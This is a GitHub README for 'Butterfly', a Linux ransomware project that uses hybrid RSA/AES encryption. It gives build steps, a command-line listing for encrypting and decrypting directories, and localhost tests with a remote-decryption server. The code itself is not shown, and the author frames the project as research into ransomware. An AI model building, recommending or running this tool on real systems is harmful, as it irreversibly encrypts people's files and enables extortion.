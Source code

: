 # Butterfly
[![Build Status](https://jenkins.bierschi.com/buildStatus/icon?job=butterfly%2Fmaster)](https://jenkins.bierschi.com/job/butterfly/job/master/)
[![GitHub release](https://img.shields.io/github/release/Naereen/StrapDown.js.svg)](https://github.com/bierschi/butterfly/releases/)
[![License: MIT](https://img.shields.io/badge/License-MIT-green.svg)](https://github.com/bierschi/butterfly/blob/master/LICENSE)

<p align="left">
<img src="images/butterfly.png" width="300" height="300">
</p>

Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :x:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with Browser :heavy_check_mark: GUI :x: Wallpaper :x:
- Connection to the TOR Network :x:
- Bitcoin Payments :x:

## Disclaimer

Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. This means careless
use leads to permanent data loss (No liability is accepted).
The main purpose for the butterfly project was just to build knowledge related to the increased occurrence of ransomwares. <br>

:exclamation: **Butterfly was never supposed to harm or threat other computers** :exclamation:

## Dependencies

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

Build butterfly
<pre><code>
git clone https://github.com/bierschi/butterfly.git
cd butterfly
mkdir build && cd build
cmake ../
(cmake ../ -DUNITTESTS=ON -DLOGGING=ON)
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory Path to start the Hybrid Encryption Mechanism (Encryption+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory
	-dec, --decrypt	    Decrypts all files in provided directory, if the request to the Server was successful
	-k,   --key         Masterkey for the Decryption (Corresponds to the embedded Server Public Key)
	-p,   --protected   Save all key files to the System
	-c,   --config	    Logger Config Path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>

Test the full functionalities of `butterfly`
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Run the butterfly binary with --dir argument
./butterfly --dir /home/butterfly/data/
</code></pre>

Test the encryption + decryption mechanism separately (+ with remote decryption)
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem


# Start only the encryption
./butterfly --encrypt /home/butterfly/data

# Start only the decryption
./butterfly --decrypt /home/butterfly/data
</code></pre>

## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Enable the Unit Tests with 
<pre><code>
cmake ../ -DUNITTESTS=ON 
</code></pre>

List all tests
<pre><code>
./butterflyUnitTests --gtest_list_tests
</code></pre>

Run the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details